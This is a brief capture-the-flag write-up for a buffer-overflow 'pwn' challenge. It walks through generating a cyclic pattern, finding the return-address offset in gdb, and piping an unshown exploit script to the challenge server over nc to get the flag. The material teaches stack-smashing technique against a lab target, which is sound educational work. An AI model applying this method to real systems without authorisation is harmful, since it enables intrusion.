 # BOF (Pwn, 160 solved, 50 points)
###### Author: [qrzcn](https://github.com/qrzcn)

```
Binary is running at
nc 139.59.30.165 8700
```
The Challange involved a binary so first run the binary locally: 

```
% ./vuln     
Welcome, You know what to do. So go get the flag.

Hello
>>> 213123
```

Then I generated a pattern with 100 length:

https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/

Now run it in gdb:  

```
$ gdb ./vuln 
$ b *0x400823 
$ c Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Breakpoint 2, 0x0000000000400823 in main ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe810:
 rip = 0x400823 in main; saved rip = 0x3562413462413362
 called by frame at 0x7fffffffe818
 Arglist at 0x7fffffffe800, args: 
 Locals at 0x7fffffffe800, Previous frame's sp is 0x7fffffffe810
 Saved registers:
  rbp at 0x7fffffffe800, rip at 0x7fffffffe808
```
Now we can calculate the Offset:

![eip](eip.png)



Now we know the Offset to the saved return pointer and can use that for our exploit: 

```python
% python2 test.py| nc 139.59.30.165 8700
```

And we get the flag: 

```
d4rk{g00d_0ld_d4y5_0f_n0_pr073c710n}c0de
```